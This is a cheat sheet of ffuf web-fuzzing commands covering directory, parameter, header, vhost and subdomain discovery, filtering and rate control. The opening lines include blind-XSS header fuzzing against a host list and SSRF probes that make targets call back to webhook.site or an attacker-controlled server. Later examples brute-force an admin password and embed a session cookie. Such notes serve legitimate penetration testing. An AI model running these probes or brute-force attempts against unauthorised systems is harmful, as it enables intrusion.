 

ffuf -c -u FUZZ1 -H "FUZZ2: FUZZ3" -w alive_uber.txt:FUZZ1 -w headers.txt:FUZZ2 -w blind_xss.txt:FUZZ3 -x http://192.168.196.1:8082 -mode clusterbomb -v 


ffuf -c -u HOST/?PROT=https://webhook.site/f4494fd5-bd02-4fd2-893d-22368ac954b8/HOST/PROT -w alive_uber.txt:HOST -w ssrf_params:PROT -x http://192.168.196.1:8082 -mode clusterbomb -r -v 


ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 

####################################
####################################

# Basic Usage
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080

# Basic Usage With a Cookie
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 -b "laravel_session=eyJpdiI6Ii8wQU11dTVlUkg2alRHUXBIVzlGSnc9PSIsInZhbHVlIjoiOWs3YllJWTdqNC9xa1pMeFRvMFh0OE1vRFpaWm9GSzFkRktVZS9yUHBDM0lIazZ4K0NsbndxWVIxQ05VZWhqZUZaR0RGQWlFdmdDc24yWllYRklGSXI5STd2b05Pam4yRXIwV1BUWkZhUnFLNUFzOWsycmRHcnlxS0FqRWNsSnEiLCJtYWMiOiI3ZTliMmM2YzIxOTExNDE0NmVjYTYyMGI4Nzg4YzJiYjNmNjVkNDI1YzEyODYwMzY5YzczNzY3NTUwZDk0OGYzIn0%3D;"

# Adding a delay
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 –p 1 –t 3

# Adding a delay (new method)
ffuf -w wordlist.txt -u http://127.0.0.1:8000/api/FUZZ/6 -o output.txt -replay-proxy http://127.0.0.1:8080 –rate 100

# Fuzzing 2 values
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 

# Simple Filter
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 -fw 1

# Simple Matcher
ffuf -w wordlist.txt:FUZZ -w actions-lowercase.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 -mc 302

# Custom Filters
ffuf -w wordlist.txt:FUZZ -w numbers.txt:ME -u http://127.0.0.1:8000/api/FUZZ/ME -o output.txt -replay-proxy http://127.0.0.1:8080 -fr "not found"

# Fuzzing Post Data
ffuf -w wordlist.txt -X POST -d "email=df%40fd.com&issue=dsafd&information=FUZZ" -u http://127.0.0.1:8000/vulnerability -replay-proxy http://127.0.0.1:8080

# Fuzzing Parameters (POST)
ffuf -w wordlist.txt -X POST -d "email=df%40fd.com&issue=dsafd&FUZZ=test" -u http://127.0.0.1:8000/vulnerability -replay-proxy http://127.0.0.1:8080

# Fuzzing Parameters (GET)
ffuf -w wordlist.txt -u http://127.0.0.1:8000/contact/submit?FUZZ=d%40d.com&issue=df -o output.txt -replay-proxy http://127.0.0.1:8080 

# Fuzzing JSON Post Data
ffuf -w wordlist.txt -X "PUT" -u http://127.0.0.1:8000/api/users/6 -H "Content-Type: application/json" -d "{'FUZZ':'test'}" -o output.txt -replay-proxy http://127.0.0.1:8080


###########################
###########################


(1) Basic command used to brute force website

ffuf -w <path-wordlist> -u https://test-url/FUZZ
(2) To fuzz parameters

ffuf -w <path-wordlist> -u https://test-url?id=FUZZ
(3) To fuzz headers

ffuf -w <path-wordlist> -u https://test-url -H "X-Header: FUZZ"
(4) To fuzz URL with POST method

ffuf -w <path-wordlist> -u https://test-url -X POST -d "var=FUZZ"
(5) To fuzz vhost list

ffuf -w <path-vhosts> -u https://test-url -H "Host: FUZZ"
(6) To find subdomains without DNS records

ffuf -w <path-wordlist> -u https://test-url/ -H "Host: FUZZ.site.com"
(7) To filter based on status code

ffuf -w <path-wordlist> -u https://test-url/FUZZ -fc 404,400
(8) To filter based on amount of words

ffuf -w <path-wordlist> -u https://test-url/FUZZ -fw <amount-of-words>
(9) To filter based on amount of lines

ffuf -w <path-wordlist> -u https://test-url/FUZZ -fl <amount-of-lines>
(10) To filter based on size of response

ffuf -w <path-wordlist> -u https://test-url/FUZZ -fs <size-of-response>
(11) To filter based on amount of words

ffuf -w <path-wordlist> -u https://test-url/FUZZ -fr <regex-pattern>
(12) To control rate of sending packets

ffuf -w <path-wordlist> -u https://test-url/FUZZ -rate <rate-of-sending-packets>
(13) To run scan for specific time or less than specific time (in seconds)

ffuf -w <path-wordlist> -u https://test-url/FUZZ -maxtime 60
(14) To fuzz substring

ffuf -w <path-wordlist> -u https://test-url/testFUZZ
(15) To limit maximum time (in seconds) per job.

ffuf -w <path-wordlist> -u https://test-url/FUZZ -maxtime-job 60
(16) File discovery with specific extensions

ffuf -w <path-wordlist> -u http://test-url/FUZZ -e .aspx,.php,.txt,.html
(17) To sent POST request with fuzz data

ffuf -w <path-wordlist> -X POST -d “username=admin\&password=FUZZ” -u http://test-url/FUZZ
(18) To FUZZ specific format file after directory

ffuf -w <path-wordlist> -u http://test-url/FUZZ/backup.zip
(19) Recursion is used to perform the same task again

 ffuf -u https://test-url/FUZZ -w <path-wordlist> -recursion
(20) Scan each domain with Wordlist1

ffuf -u https://codingo.io/Wordlist1 -w <path-wordlist>:Wordlist1
(21) Scan multiple domains with Wordlist1

ffuf -u https://Wordlist2/Wordlist1 -w <path-wordlist>:Wordlist1 <domain-list>:Wordlist2
(22) To introduce delay (in seconds) by using -p

ffuf -u http://test-url/FUZZ/ -w <path-wordlist> -p 1
(23) To speed or slow scan by using -t (default is 40)

ffuf -u http://test-url/FUZZ/ -w <path-wordlist> -t 1000
(24) To save output by using -o and for format -of

ffuf -u https://test-url/FUZZ/ -w <path-wordlist> -o output.html -of html
(25) To run scan in silent mode

ffuf -u https://test-url/FUZZ -w <path-wordlist> -s
